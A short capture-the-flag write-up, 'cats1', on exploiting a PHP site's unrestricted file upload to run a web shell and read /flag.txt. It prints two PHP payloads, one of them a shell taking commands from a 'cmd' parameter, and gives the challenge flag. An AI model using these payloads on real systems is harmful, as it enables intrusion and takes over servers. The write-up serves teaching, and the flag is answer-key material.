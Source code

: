 # Solution - cats1 
- This is a PHP site. 
- When uploading pictures, there is no restriction put on the *type* of file that can be added. 
- As a result, we can upload a PHP file with our own code inside of it.
	- Do this on the ``upload.php`` page. 
	- Upload PHP to read and display the flag at ``/flag.txt`` or a reverse shell.
	- The following code will print the flag: 
		- 
		- ```<?php
			echo system("cat /flag.txt", $retval);
			?>```
	- The following code will take in a parameter and execute it: 
		- ```<?php
			echo system($_GET['cmd'], $retval);
			?>```

- Once we execute the code, we can get code execution to read the flag from the server.
	- Reference the file in the main URL. 
	- It will be at something like http://url.com/pictures/attack.php
- Flag: SC4{PhP_1s_A_m0nster_s0_mAny_issues!}